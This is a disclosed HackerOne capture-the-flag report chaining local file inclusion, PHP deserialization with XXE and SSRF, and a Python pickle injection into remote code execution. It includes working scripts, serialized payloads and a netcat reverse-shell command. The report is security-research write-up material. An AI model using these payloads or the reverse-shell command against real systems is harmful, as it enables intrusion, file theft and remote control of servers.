 # Remote Command Execution in a internal server to get the flag file

## Report Details
- **Report ID**: 415682
- **URL**: https://hackerone.com/reports/415682
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-09-28T14:52:45.388Z
- **Disclosed**: 2018-10-22T17:13:10.696Z

## Reporter
- **Username**: manoelt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: h1-5411-ctf

## Vulnerability Information
**Summary:**
After source code disclosure using a LFI vulnerability and using PHP object injection with XXE I was able to find an internal service at port 1337. Using the SSRF through XXE I sent a HTTP request to this internal service and discovered a python object injection using status parameter, with this vector I was able to get RCE on the server located at 104.248.121.85.

**Description:**

_LFI_
The *template* parameter at /api/generate.php is vulnerable to LFI. So I could get all relevant source code from the application using *type* as text. I created a python script to help:

```
import requests
import sys

url = 'http://h1-5411.h1ctf.com/api/'
endpoint = 'generate.php'

headers = {'Cookie':'PHPSESSID=v6a28uv6ad2e9ivr02hajqao4g'}
payload = {'template' : '../../../../../../..'+sys.argv[1], 'type' : 'text', 'top-text' : '.', 'bottom-text' :'.'}

r = requests.post(url+endpoint, headers=headers, data=payload)
json_response = r.json()

file_url = json_response['meme_path']
print file_url

r = requests.get(url+file_url)
print r.text
```

Using Burp:
{F352386}

Some files read during my tests:
1. /etc/passwd
2. /etc/issue
3. /etc/resolv.conf
4. /etc/hosts
5. /var/log/apt/history.log
6. App source code

_PHP Object Injection - Deserialization and XXE_
After read the code I discovered two endpoints for a future version, 2.0:

File: header.php
```
<?php
  $pages = [
    "generate.php" => "Meme Generator",
    "memes.php" => "Your Memes",
    // for version 2.0
    // "import_memes_2.0.php" => "Import Memes",
    // "export_memes_2.0.php" => "Export Memes"
  ];
?>
```

Looking into import_memes_2.0.php and export_memes_2.0.php I found an unserialization call using user input without validation, which is extremely dangerous. So I craft a payload serializing a *ConfigFile* object with XML in *config_raw* attribute, as __toString() method calls parse() witch then calls loadXML with libxml_disable_entity_loader ENABLED. So, we could obtain XXE and SSRF.

Using PHP to create the payload:
```
<?php
require_once('classes.php'); // Same I got using LFI

$t = new ConfigFile('http://localhost/h1-5411/xml2'); 
$x = new Maintenance();

$o = [$t, $x ];

echo base64_encode(serialize($o));
```

PHP Object example (b64 decoded):
```
a:2:{i:0;O:10:"ConfigFile":1:{s:10:"config_raw";s:276:"<?xml version='1.0' encoding='ISO-8859-1'?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/etc/issue' >]>
<memes><toptext>&xxe;</toptext><bottomtext>A</bottomtext><template>TeMPLaTe123</template><type>XML</type></memes>
";}i:1;O:11:"Maintenance":0:{}}
```

File: xml2
```
<?xml version='1.0' encoding='ISO-8859-1'?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/etc/issue' >]>
<memes><toptext>&xxe;</toptext><bottomtext>A</bottomtext><template>TeMPLaTe123</template><type>XML</type></memes>
```

Then using the serialized object above (ConfigFile), I uploaded my memepak using /import_memes_2.0.php and got the /etc/issue file base64 encoded as one of my memes.


__SSRF__

Using the above XXE we could manipulate the server to do requests for others internal services, as noted at source code there is a Maintenance service somewhere.

Using the python exploit attached {F352404}, I could read files and do http/ftp requests. Although I could do a port scan using http/ftp/sftp requests, I was able to find the internal service using a process ID scan using /proc/{ID}/cmdline, which revealed:

```
/proc
1
ps-run

4
/bin/bash/opt/run/ctf-entrypoint

6
ssh-i/app/92df63a566f599a094153febb133b99f87a161b5-oStrictHostKeyChecking=no-f-N-L1337:localhost:1337maintenance@104.248.121.85

8
/bin/sh/usr/sbin/apache2ctl-DFOREGROUND
```

So I found a ssh tunnel to another service at 104.248.121.85. Using the python script above, I started to interact with http://localhost:1337/ :
 {F352398}

__Python Object Injection - Pickle__

Using the *debug* parameter I realized that *status* parameter should be base64 encoded. After that I could see a pickle base64 encoded as status. My first try was to request a status-update using a malicious pickle as status:

Creating a malicious pickle with a reverse shell:
```
import cPickle
import os
import sys
import base64

DEFAULT_COMMAND = "nc ███████ 9300 -e /bin/bash"

COMMAND = sys.argv[1] if len(sys.argv) > 1 else DEFAULT_COMMAND

class PickleRce(object):
    def __reduce__(self):
        return (os.system,(COMMAND,))

print base64.b64encode(cPickle.dumps(PickleRce()))

```
Sending the above Pickle I got a connect back from the server.

{F352400}

## Steps To Reproduce:

I created some python scripts to reproduce.

  1. Use {F352403} to read files from the server (LFI)
  2. Use {F352404} to read files and do requests to internal services. Found http://localhost:1337
  3. Use {F352406} to create a pickle payload for any OS command. With this payload, use {F352404} to send a request to http://localhost:1337/update-status?debug=1&status={PAYLOAD}

## Impact

Compromise data and servers.

## Attachments
- LFI.JPG
- Pickle.JPG
- ReverseShell.JPG
- lfi.py
- send_meme.py
- python_pickle_rce.py
